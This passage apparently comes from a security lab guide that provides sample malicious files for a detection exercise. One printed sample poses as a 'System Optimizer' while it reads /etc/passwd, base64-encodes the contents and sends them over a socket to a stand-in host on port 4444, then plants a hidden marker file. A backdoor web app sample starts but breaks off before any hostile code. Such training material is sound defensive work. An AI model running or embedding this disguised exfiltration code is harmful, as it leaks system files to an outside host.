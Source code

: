 **✅ Expected Results**: You should see files like:

- `suspicious_script.py` in suspicious-scripts folder
- `backdoor_app.py` in backdoor-apps folder
- `crypto_miner.py` in resource-abuse folder

**❌ If files are missing**: Contact technical support or use the sample code
provided in this guide.

1. **Suspicious Script** (`suspicious-scripts/suspicious_script.py`):

```python
#!/usr/bin/env python3
import os
import socket
import time
import base64

# Appears to be a system optimizer
print("System Optimizer v1.0 - Improving performance...")

# Hidden malicious behavior
try:
    # Attempt to access sensitive files
    with open('/etc/passwd', 'r') as f:
        users = f.read()

    # Try to establish backdoor connection
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('suspicious-server.com', 4444))
    s.send(base64.b64encode(users.encode()))
    s.close()

    # Create hidden file
    with open('/tmp/.hidden_backdoor', 'w') as f:
        f.write("backdoor_installed")

except Exception as e:
    pass  # Hide errors

# Legitimate-looking behavior
for i in range(10):
    print(f"Optimizing system component {i+1}/10...")
    time.sleep(1)

print("Optimization complete!")
```

2. **Backdoor Web App** (`backdoor-apps/backdoor_app.py`):

```python
#!/usr/bin/env python3
from flask import Flask, request, render_template_string
import subprocess
import os

app = Flask(__name__)

# Normal web pages
@app.route('/')
def home():
    return "<h1>Welcome to SecureApp</h1><p>A trusted business application</p>"

@app.route('/about')
def about():
    return "<h1>About Us</h1><p>We provide secure business solutions</p>"

```